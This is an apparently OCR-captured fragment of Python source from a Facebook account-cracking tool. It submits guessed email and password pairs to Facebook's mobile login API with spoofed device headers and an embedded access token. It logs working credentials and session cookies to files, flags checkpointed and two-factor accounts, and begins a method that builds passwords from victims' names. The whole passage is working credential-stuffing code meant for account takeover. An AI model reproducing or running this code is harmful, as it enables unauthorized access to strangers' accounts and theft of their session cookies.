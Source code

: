                         accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        xd =str(''.join(random_seed.choices(string.digits, k=20)))
                        sim_serials = f'["{xd}"]'
                        li = ['28','29','210']
                        li2 = random.choice(li)
                        j1 = ''.join(random.choice(digits) for _ in range(2))
                        jazoest = li2+j1
                        data={"adid": str(uuid.uuid4()),"format": "json","device_id": str(uuid.uuid4()),"cpl": "true","family_device_id": str(uuid.uuid4()),"credentials_type": "device_based_login_password","error_detail_type": "button_with_disabled","source": "device_based_login","email":ids,"password":pas,"access_token":"350685531728|62f8ce9f74b12f84c123cc23437a4a32","generate_session_cookies":"1","meta_inf_fbmeta": "","advertiser_id": str(uuid.uuid4()),"currently_logged_in_userid": "0","locale": "en_US","client_country_code": "US","method": "auth.login","fb_api_req_friendly_name": "authenticate","fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler","api_key": "882a8490361da98702bf97a021ddc14d"}
                        headers = {"Content-Type": "application/x-www-form-urlencoded","Host": "graph.facebook.com","User-Agent": ua,"X-FB-Net-HNI": "45204","X-FB-SIM-HNI": "45201","X-FB-Connection-Type": "MOBILE.LTE","X-Tigon-Is-Retry": "False","x-fb-session-id": "nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62","x-fb-device-group": "5120","X-FB-Friendly-Name": "ViewerReactionsMutation","X-FB-Request-Analytics-Tags": "graphservice","Accept-Encoding": "gzip, deflate","X-FB-HTTP-Engine": "Liger","X-FB-Client-IP": "True","X-FB-Server-Cluster": "True","x-fb-connection-token": "d29d67d37eca387482a8a5b740f84f62","Connection": "Keep-Alive"}
                        url = 'https://b-graph.facebook.com/auth/login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                        print('\r\r\033[1;32m [IJAZ-OK] '+ids+' | '+pas+'\033[1;97m')
                                        coki = ";".join(i["name"]+"="+i["value"] for i in po["session_cookies"])
                                        #print("\r\r\033[1;33m Cookie: "+coki)
                                        open('/sdcard/𝐈𝐣𝐚𝐳-COKIE.txt','a').write(ids+'|'+pas+ ' | ' +coki+'\n')
                                        open('/sdcard/𝐈𝐣𝐚𝐳-OK.txt','a').write(ids+'|'+pas+'\n')
                                        oks.append(ids)
                                        break
                        elif twf in str(po):
                                        if 'y' in pcp:
                                                print('\r\r \033[1;34m[IJAZ-2F] '+ids+' | '+pas)
                                                twf.append(ids)
                                                break
                        elif 'www.facebook.com' in po['error']['message']:
                                        if 'y' in pcp:
                                                print('\r\r\x1b[38;5;205m [IJAZ-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open('/sdcard/IJAZ-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                                cps.append(ids)
                                        else:
                                                open('/sdcard/IJAZ-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                                cps.append(ids)
                        else:
                                        continue
                loop+=1
        except Exception as e:
                pass
  #method3             
def api3(ids,names,passlist):
        try:
                global ok,loop,sim_id
                sys.stdout.write('\r\r\033[1;37m [IJAZ-M3] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                fn = names.split(' ')[0]
                try:
                        ln = names.split(' ')[1]
                except:
                        ln = fn